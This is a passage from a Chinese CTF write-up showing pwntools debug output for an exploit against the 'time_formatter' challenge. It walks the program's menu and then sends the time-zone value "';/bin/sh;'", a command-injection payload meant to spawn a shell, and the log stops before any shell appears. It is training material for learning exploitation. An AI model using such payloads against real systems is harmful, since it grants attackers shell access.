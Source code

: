 执行结果如下：

```
root@mypwn:/ctf/work/python/time_formatter# python time_formatter.py 
[+] Starting local process './807522d1647f4f0b8b26d6c1530d72b7' env={'LD_LIBRARY_PATH': './'} : pid 400
[DEBUG] Received 0x7f bytes:
    "Welcome to Mary's Unix Time Formatter!\n"
    '1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x8 bytes:
    'Format: '
[DEBUG] Sent 0x4 bytes:
    'AAA\n'
[DEBUG] Received 0x64 bytes:
    'Format set.\n'
    '1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x16 bytes:
    'Enter your unix time: '
[DEBUG] Sent 0x4 bytes:
    '111\n'
[DEBUG] Received 0x62 bytes:
    'Time set.\n'
    '1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '5\n'
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x7d bytes:
    'Are you sure you want to exit (y/N)? 1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0xb bytes:
    'Time zone: '
[DEBUG] Sent 0xc bytes:
    "';/bin/sh;'\n"
[DEBUG] Received 0x67 bytes:
    'Time zone set.\n'
    '1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
```